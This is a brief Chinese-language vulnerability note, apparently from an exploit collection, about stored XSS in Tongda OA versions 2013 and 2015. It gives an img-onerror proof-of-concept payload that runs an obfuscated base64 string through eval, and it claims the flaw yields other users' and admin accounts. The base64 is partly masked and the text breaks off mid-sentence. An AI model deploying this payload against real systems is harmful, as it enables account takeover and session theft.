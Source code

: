 通达oa xss
==========

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤，
所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

    <img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))>

![](./.resource/通达oaxss/media/rId24.png)

![](./.resource/通达oaxss/media/rId25.png)

这个漏洞获取admin权限⾮
